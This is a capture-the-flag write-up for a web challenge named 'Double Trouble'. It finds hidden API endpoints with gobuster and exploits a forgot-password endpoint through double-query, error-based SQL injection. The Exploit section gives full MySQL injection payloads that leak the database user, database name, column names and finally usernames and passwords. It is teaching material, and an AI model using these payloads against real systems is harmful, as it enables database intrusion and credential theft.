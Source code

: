 # Double Trouble

## Preliminary Analysis

Probably my hardest challenge but once you understand what the vulnerability is it becomes pretty manageable.

If you read the description of the challenge carefully, you should realize that there are some hidden API endpoints and hidden routes which were shipped into production. 

Bruteforce penetration testing is a pretty hard problem when it comes to actually web exploitation. Finding the endpoint entirely depends on the pentester's skills and wordlist which he/she uses for exploitation.

Here I will be using gobuster with dirb's wordlists with a twist

![gobuster commands](./gobuster.png)

Adding the api at the end of the URL is necessary to find the API endpoint. You can find /api/login\_user and /api/create\_user by inspecting the action fields of the login and create_user forms.

After finding the /api/forgot\_password endpoint, we should now find the vulnerability associated with this endpoint. 

## Vulnerability

Since everything in the website was sending POST requests from the forms to the website, this might also be a form related vulnerability. Now the most common vulnerability when it comes to taking form input in web exploitation is SQL Injection. Now the title of the challenge comes into picture where Double query attacks are a famous type of error based SQL Injection attack.

Double Query attacks are commonly used when the system is not returning any data back to the website which means that ~UNION SELECT~ can't be used. Once you realise that the vulnerability is a Double Query SQL Injection, exploiting the endpoint becomes very trivial as almost all Double Query attacks are based on exploiting the integrity error messages. 

## Exploit

Usually forgot password forms ask for either an Email-ID or a username. So sending a post request with the following query and you will be able to find that this API indeed accepts only the email field. Then following the standard procedure of slowly exploiting the DB to get the info and credentials follows.

Sending the following requests in order


+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT user()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"

  Leaks the user under which the DB is running
 
+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT database()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"
  
   Leaks the name of the DB

+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"
 
  Leaks the First Column name in the DB

+ "sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"

  Leaks the second column name in the DB
  
  .
  .
  .
  
+ "sridhardked@gmail.com' AND SELECT * FROM users WHERE id = '1' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT MID(username,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 2,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"

  After getting all the column names, they can be used to get the username and passwords of all the users in the table using the mechanism
  
  The whole exploit is a group of at least 25-30 queries to leak titbits about the database slowly.

  I suggest making a MySQL database and trying out double query exploits and understanding how they work locally before testing on any server or service.

## Resources

+ [Link 1](https://www.adversify.co.uk/exploiting-double-query-sql-injections/)
+ [Link 2](https://www.infosecinstitute.com/resources/application-security/double-query-injections-demystified/?ref=adversify.co.uk#gref)
+ [Link 3](https://www.youtube.com/watch?v=NWVJ2b0D1r8)

